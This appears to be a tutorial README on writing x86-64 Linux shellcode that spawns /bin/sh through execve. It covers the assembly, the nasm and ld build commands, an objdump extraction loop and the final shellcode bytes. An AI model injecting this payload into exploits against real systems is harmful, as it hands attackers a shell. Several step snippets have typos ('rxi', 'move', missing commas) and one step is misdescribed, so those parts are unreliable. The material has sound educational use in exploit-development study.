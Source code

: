 # Shellcode

## Logistics

1. we need to call 

```c
execve("/bin/sh", ["/bin/sh"], null)
```

2. the address of the first 3 arguments of `execve` are stored at `rdi`, `rxi`, `rdx`.

3. to load null pointer into `rdx`, we should do

```assembly
xor rdx rdx
push rdx
```

4. to push the "/bin/sh" argument to stack, we need

```assembly
mov rax, <little-endian representation of the "/bin/sh" string>
push rax
```

5. to load into `rdi` the stack pointer (now points to "/bin/sh"), we do

```assembly
move rdi, rsp
```

6. to push the array `["/bin/sh"]` onto stack with a null pointer indicating its end, we do

```assembly
push rdx
push rdi
``` 

7. to load the above (pointed by rsp now) address into `rsi`, we do

```assembly
mov rsi, rsp
```

8. now we need to load 59 into the least significant byte of `rax`, before that we should tidy up.

```assembly
xor rax rax
mov al 0x3b
```

## Assembly code

```assembly
; runs /bin/sh

section .text
    global _start

_start:

    xor rdx, rdx
    push rdx
    mov rax, <little endian of "/bin/sh">
    push rax
    mov rdi, rsp
    push rdx
    push rdi
    mov rsi, rsp
    xor rax, rax
    mov al, 0x3b
    syscall
```

By playing with convert.py, we know that the "/bin//sh" little endian presentation should be `0x68732f2f6e69622f`.

Now we can compile it: 

```bash
nasm -f elf64 example.asm -o example.o
```

Use GNU linker (ld), we could combine the compiled object file with symbol references.

```bash
ld -m elf_x86_64 -s -o example example.o
```

## Make shellcode

Run 

```bash
for i in $(objdump -d example |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
```

to remove null bytes in the objdump output.

We get out final shellcode

```
\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05
```.